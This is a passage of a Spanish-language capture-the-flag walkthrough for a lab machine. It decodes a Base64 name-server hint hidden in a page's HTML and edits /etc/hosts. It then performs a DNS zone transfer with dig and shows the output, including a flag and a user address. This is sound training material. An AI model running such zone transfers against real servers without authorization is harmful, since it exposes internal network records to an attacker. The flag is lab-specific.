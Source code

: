 Si probamos a ver la pagina web que tiene abierta, veremos que a simple vista no vemos nada interesante, pero si inspeccionamos el codigo, veremos la siguiente parte:

```html
<a href="#" style="position: absolute; left: -9999px;">
    <img src="data:image/png;TlM6IGhhY2t6b25lLmhs" alt="HackZone">
</a>
```

Es bastante interesante la cadena `TlM6IGhhY2t6b25lLmhs` parece un `Base64`, por lo que si lo decodificamos, veremos lo siguiente:

```
NS: hackzone.hl
```

Parece ser como que nos da un `Name Server` de algun dominio llamado `hackzone.hl`, pero si lo probamos a poner en el `hosts` y buscarlo por ese dominio, no va a funcionar, ya que si nos bajamos un poco mas en el `footer` de la pagina, veremos otro dominio llamado `hackzones.hl` que ese si nos llevara a un login de lo que parece unos servidores `DNS`:

## Dominio puerto 80

Por lo que meteremos ese ultimo dominio en el archivo `hosts`:

```shell
nano /etc/hosts

#Dentro del nano
<IP>         hackzones.hl
```

Lo guardamos y ahora lo buscaremos en el navegador web.

```
URL = http://hackzones.hl/
```

Como dije antes parece ser un login de unos servidores `DNS` y sabiendo que el puerto `53` esta abierto, vamos a probar a extraer la informacion del archivo de `zona` de los servidores `DNS` (`ZoneTransfer`) por lo que probaremos con el dominio que no nos funciono llamado `hackzone.hl`.

## Transferencia de zona del archivo DNS

Pondremos el siguiente comando:

```shell
dig @<IP> hackzone.hl AXFR
```

Info:

```
; <<>> DiG 9.20.2-1-Debian <<>> @172.19.0.2 hackzone.hl AXFR
; (1 server found)
;; global options: +cmd
hackzone.hl.		604800	IN	SOA	ns.hackzone.hl. root.hackzone.hl. 2 604800 86400 2419200 604800
hackzone.hl.		604800	IN	NS	ns.hackzone.hl.
flag.hackzone.hl.	604800	IN	TXT	"FLAG{05964683-55675-23423-985046}"
ns.hackzone.hl.		604800	IN	A	127.0.0.1
User.hackzone.hl.	604800	IN	TXT	"mrRobot@hackzone.hl"
www.hackzone.hl.	604800	IN	A	127.0.0.1
hackzone.hl.		604800	IN	SOA	ns.hackzone.hl. root.hackzone.hl. 2 604800 86400 2419200 604800
;; Query time: 0 msec
;; SERVER: 172.19.0.2#53(172.19.0.2) (TCP)
;; WHEN: Fri Nov 15 05:48:28 EST 2024
;; XFR size: 7 records (messages 1, bytes 286)
```
